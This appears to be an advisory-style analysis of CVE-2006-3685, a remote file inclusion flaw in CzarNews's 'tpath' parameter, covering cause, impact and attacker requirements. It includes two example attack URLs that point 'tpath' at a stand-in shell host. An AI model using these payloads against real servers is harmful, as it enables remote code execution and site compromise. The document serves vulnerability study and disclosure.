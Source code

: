 Based on the provided content, here's an analysis of the vulnerability:

**CVE ID:** CVE-2006-3685

**Root Cause of Vulnerability:**
The vulnerability stems from a failure to properly sanitize user-supplied input within the `tpath` parameter in the `news.php` and `cn_config.php` files of CzarNews. This allows for remote file inclusion.

**Weaknesses/Vulnerabilities Present:**
- **Remote File Inclusion (RFI):** The application directly includes the content from a URL provided by the attacker through the `tpath` parameter. This insecure practice allows attackers to inject arbitrary PHP code into the application by pointing the `tpath` parameter to a malicious PHP file hosted remotely.

**Impact of Exploitation:**
- **Arbitrary Code Execution:** By including a malicious PHP file, an attacker can execute arbitrary code on the server hosting CzarNews. This can lead to a variety of severe outcomes, such as:
    - Complete compromise of the web server.
    - Data theft or modification.
    - Installation of backdoors or malware.
    - Defacement of the website.

**Attack Vectors:**
- **HTTP GET Request:** The attacker crafts a malicious URL containing the `tpath` parameter and points it to a remote server hosting the malicious PHP code.
  - Example URLs :
    - `http://sitename.com/news.php?tpath=http://SHELLURL.COM?`
    - `http://sitename.com/cn_config.php?tpath=http://SHELLURL.COM?`
  
**Required Attacker Capabilities/Position:**
- **Network Access:** The attacker needs to be able to send HTTP requests to the vulnerable CzarNews server.
- **Remote Server:** The attacker needs access to a web server to host the malicious PHP file that will be included by the vulnerable application.
- **No Authentication Needed:** The vulnerability can be exploited without any prior authentication.
